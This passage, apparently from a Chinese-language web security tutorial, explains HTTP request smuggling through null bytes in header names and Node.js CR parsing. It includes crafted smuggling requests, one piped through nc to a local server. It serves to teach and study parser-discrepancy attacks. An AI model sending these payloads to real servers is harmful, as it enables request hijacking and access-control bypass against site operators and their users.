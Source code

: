 ### Null In Headers

在一些用 C 写的中间件服务器当中比较容易产生这个问题，因为`\0`代表字符串结束标志，当用在 header 里面，如果我们用`\0`就可能让中间件出现一些不正常的解析。

比如说：

```bash
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

有些中间件处理以上的请求时，当遇到`\0`的时候会继续换行读取，这样也会导致产生解析差异。

### CRLF

根据 [RFC7320 section-3.5](https://tools.ietf.org/html/rfc7230#section-3.5):

> Although the line terminator for the start-line and header fields is the sequence CRLF, a recipient MAY recognize a single LF as a line terminator and ignore any preceding CR.

也就是说除了 CRLF 我们还可以用 LF 作为 EOL，但是在 Node.js < 5.6.0 的版本，对于 CRLF 的处理也是比较有趣的：

```bash
[CR] + ? == [CR][LF]        //true
```

假设我们有一个正常解析 CRLF 的 Front 服务器，后端是有该漏洞的 Node.js 服务，我们可以发送以下请求：

```bash
GET / HTTP/1.1\r\n
Host:localhost\r\n
Dummy: Header\rZTransfer-Encoding: chunked\r\n
Content-length: 52\r\n
\r\n
0\r\n
\r\n
GET /tmp HTTP/1.1\r\n
Host:localhost\r\n
Dummy:Header\r\n
```
